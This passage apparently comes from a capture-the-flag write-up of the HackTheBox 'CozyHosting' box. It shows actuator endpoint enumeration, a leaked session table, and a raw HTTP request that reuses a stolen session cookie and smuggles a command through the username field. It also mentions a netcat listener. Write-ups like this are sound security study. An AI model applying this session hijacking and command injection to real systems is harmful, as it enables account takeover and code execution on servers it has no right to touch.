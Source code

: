 ```bash
/actuator/health      (Status: 200) [Size: 15]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/mappings    (Status: 200) [Size: 9938]
```

The `/actuator/sessions` actuator reveals session information about other authenticated users:
```json
{
  "EF592116E313C3EE76A696CC4C04D4DB": "kanderson",
  "3BBB0C852B07D7F325FACF09AAB03978": "UNAUTHORIZED",
  "85EAE64ADF4DD4FFD7B7E4BD1BF388C5": "UNAUTHORIZED",
  "E8735D16809559854F63731D775B55EF": "kanderson",
  "37F0852DA0984996DA74442B4C029F88": "UNAUTHORIZED"
}
```

Authenticating, we have a POST form which executes the endpoint `/executessh` no success when running `nc -lnvp 22` and getting a connection back.


Submitting the following request:
```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://cozyhosting.htb
Connection: close
Cookie: JSESSIONID=E8735D16809559854F63731D775B55EF
Upgrade-Insecure-Requests: 1

host=10.10.14.25&username=kanderson;
```

Returns

```
HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 25 Sep 2023 23:19:29 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: @10.10.14.25: command not found
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY


```
